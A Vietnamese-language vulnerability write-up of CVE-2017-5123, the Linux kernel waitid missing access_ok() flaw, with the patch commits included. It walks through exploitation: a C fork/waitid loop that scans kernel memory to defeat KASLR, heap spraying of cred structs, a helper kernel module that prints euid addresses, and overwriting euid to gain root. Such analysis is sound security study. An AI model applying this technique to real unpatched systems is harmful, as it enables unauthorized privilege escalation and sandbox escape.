



# CVE-2017-5123

## Bug overview

Waitid system call trong linux kernel đã không xác thực địa chỉ đích được dùng. Điều này có thể cho phép người dùng cục bộ có quyền ghi vào vùng nhớ kernel, có thể dẫn đến leo thang đặc quyền trên thiết bị hoặc escape sandbox.

## Vulnerability description

### phân loại lỗ hổng

- Leo thang đặc quyền
- Escape sandbox (chrome)

### Vulnerability code

`kernel/exit.c`

```c
SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
        infop, int, options, struct rusage __user *, ru)
{
    struct rusage r;
    struct waitid_info info = {.status = 0};
    long err = kernel_waitid(which, upid, &info, options, ru ? &r : NULL);
    int signo = 0;

    if (err > 0) {
        signo = SIGCHLD;
        err = 0;
        if (ru && copy_to_user(ru, &r, sizeof(struct rusage)))
            return -EFAULT;
    }
    if (!infop)
        return err;

    user_access_begin(); // bản chất là gọi stac(), tạm thời tắt SMAP
    unsafe_put_user(signo, &infop->si_signo, Efault); // <- thiếu access_ok() check trc khi gọi hàm này
    unsafe_put_user(0, &infop->si_errno, Efault);
    unsafe_put_user(info.cause, &infop->si_code, Efault);
    unsafe_put_user(info.pid, &infop->si_pid, Efault);
    unsafe_put_user(info.uid, &infop->si_uid, Efault);
    unsafe_put_user(info.status, &infop->si_status, Efault);
    user_access_end();  // bản chất là gọi clac(), bật lại SMAP
    return err;
Efault:
    user_access_end();
    return -EFAULT;
}
```

Lỗi xác định được ở đây là thiếu access_ok() check trước khi gọi hàm unsafe_put_user(). Với các phiên bản kernel trước đó, chương trình sử dụng hàm `put_user()`, hàm này bao gồm cả việc gọi check `access_ok()`.

```C
put_user(x, void __user *ptr)
    if (access_ok(VERIFY_WRITE, ptr, sizeof(*ptr)))
        return -EFAULT
    user_access_begin()
    *ptr = x
    user_access_end()
```

Với việc sử dụng hàm `unsafe_put_user()` chương trình tránh được việc phải bật tắt smap nhiều lần liên tục trong thời gian ngắn do gọi `user_access_begin()` / `user_access_end()`. Hàm `access_ok()` ở đây check tính xác thực của địa chỉ địa chỉ `ptr`. Đảm bảo nó thuộc vùng nhớ của user. Ngăn việc người dùng ghi vào vùng nhớ kernel. **Vậy nếu ta gọi syscall waitid và tham số infop là một địa chỉ kernel sẽ trigger lỗi này**.

## Exploitation

Việc thiếu `access_ok()` check cho phép ta truyền một địa chỉ kernel bởi tham số infop của waitid sau đó syscall sẽ ghi đè địa chỉ này bằng việc gọi `unsafe_put_user()`. Một hạn chế ở đây là ta không thể kiểm soát những j sẽ được ghi vào địa chỉ kernel mà ta cung cấp. Có 6 trường được dùng để ghi, `signo`, null byte, `info.cause`, `info.pid` có giá trị max = 0x8000, `info.uid`, `info.status` tuy là kiểu int32 nhưng chỉ mang giá trị >0, < 256. Ở đây trường có tác dụng nhất có lẽ sẽ là nullbyte. Ta có thể dùng nó để overwrite `cred->euid` và `cred->uid`. Để làm được như vậy, ta cần biết được địa chỉ của 2 giá trị này.

### bypass KASLR bằng cách quét bộ nhớ

Theo [kernel.org](https://www.kernel.org/doc/html/latest/x86/x86_64/mm.html), địa chỉ `Kernel-space virtual memory` chia sẻ giữa tất cả các process bắt đầu từ `0xffff800000000000`, tuy nhiên từ `0xxffff800000000000` đến `0xffff87ffffffffff` là "... guard hole, also reserved for hypervisor" nên ta sẽ bắt đầu việc quét bộ nhớ từ địa chỉ `0xffff880000000000`. Cũng phải nói thêm đó là việc ta có thể quét bộ nhớ là vì `unsafe_put_user()` sẽ không crash khi ta truy cập các địa chỉ không hợp lệ. Điều này giúp ngăn chặn "unprivileged users" dos hệ thống bằng cách truyền vào địa chỉ không hợp lệ.

```C
for(i = (char *)0xffff880000000000; ; i+=0x10000000) {
    pid = fork();
    if (pid > 0) 
    {
        if(syscall(__NR_waitid, P_PID, pid, (siginfo_t *)i, WEXITED, NULL) >= 0) 
        {
            printf("[+] Found %p\n", i);
            break;
        }
    }
    else if (pid == 0)
        exit(0);
}
```



Bây giờ chúng ta đã biết được địa chỉ kernel heap tiếp theo sẽ đến xác định địa chỉ của cred struct.

### Tìm địa chỉ của Cred với heap spray

Tuy biết được địa chỉ của kernel heap, tuy nhiên địa chỉ đó có thể không phải địa chỉ bắt đầu của heap. Nên ta ko thể tính được địa chỉ chính xác của Cred struct. Lúc này ta sử dụng 1 kĩ thuật có tên là heap spray.

- nếu ta tạo thật nhiều process, sẽ có nhiều cred struct trên bộ nhớ. Từ đó ta có thể đoán địa chỉ của cred struct dễ hơn
- Các process đó tiếp tục gọi `geteuid()` nếu return 0 tức là process đó đang chạy với quyền root-> bingo.
- Process cha tieeps tục gọi syscall `waitid()` sử dụng lổ hổng, đoán địa chỉ cred struct và overwritten cred->uid thành null.

Việc debug để tìm địa chỉ cred struct của các process con tốn khá nhiều thời gian, nên mình sử dụng module có sẵn để in địa chỉ `cred->euid` qua `printk()`.

```c
#include <linux/module.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/sched.h>
#include <linux/fs.h>        // for basic filesystem
#include <linux/proc_fs.h>    // for the proc filesystem
#include <linux/seq_file.h>    // for sequence files

static struct proc_dir_entry* jif_file;

static int
jif_show(struct seq_file *m, void *v)
{
    return 0;
}

static int
jif_open(struct inode *inode, struct file *file)
{
     printk("EUID: %p\n", &current->cred->euid);
     return single_open(file, jif_show, NULL);
}

static const struct file_operations jif_fops = {
    .owner    = THIS_MODULE,
    .open    = jif_open,
    .read    = seq_read,
    .llseek    = seq_lseek,
    .release    = single_release,
};

static int __init
jif_init(void)
{
    jif_file = proc_create("jif", 0, NULL, &jif_fops);

    if (!jif_file) {
        return -ENOMEM;
    }

    return 0;
}

static void __exit
jif_exit(void)
{
    remove_proc_entry("jif", NULL);
}

module_init(jif_init);
module_exit(jif_exit);

MODULE_LICENSE("GPL");
```



Mình nhận ra có các địa chỉ có dạng giống nhau, ngay cả sau khi reboot, offset của những địa chỉ này vẫn tương tự. Vậy nên mình quyết định chọn một địa chỉ sau đó cho + pagesize theo vòng lặp để đoán địaa chỉ cred struct.



video demo khai thác
<a href="http://www.youtube.com/watch?feature=player_embedded&v=JASj6jkwEp8
" target="_blank"></a>

### một vài vấn đề vế hướng khai thác này

- tỉ lệ thành công không chắc chắn.
- đối với các version kernel bị ảnh hưởng bởi lỗ hổng này, mã khai thác có thể không hoạt động trên tất cả các version bởi vì mỗi version kernel khác nhau, offset của EUID khi spray lại khác nhau. Để Poc có thể chạy trên mọi version, thì khi mã khai thác tìm euid để sửa thành null. Mình có để địa chỉ dạng `heap addr founded + offset`, cần giảm offset đi nhỏ hơn để có thể dùng được cho nhiều version. Tuy nhiên việc này đồng nghĩa với thời gian tấn công lâu hơn, tăng khả năng kernal bị panic/crash do có thể ghi vào các struct quan trọng khác trong heap.

## Affect range

- phiên bản ảnh hưởng: linux kernel version 4.13 - 4.13.6
- [commit xuất hiện lỗi](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=4c48abe91be03d191d0c20cc755877da2cb35622) (2017-05-21, v4.13-rc1)

## The patch

- Bản vá đã thêm `access_ok()` check
- [commit vá lỗi](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=96ca579a1ecc943b75beba58bebb0356f6cc4b51)

## Conclusion

- Lỗi có thể dùng để leo thang đặc quyền, có thể chain với chrome sandbox escape. Tại thời điểm phát hiện lỗi, Chrome seccomp cho phép sử dụng waitid syscall.

## References

- [Exploiting CVE-2017-5123 with full protections. SMEP, SMAP, and the Chrome Sandbox!](https://salls.github.io/Linux-Kernel-CVE-2017-5123/)

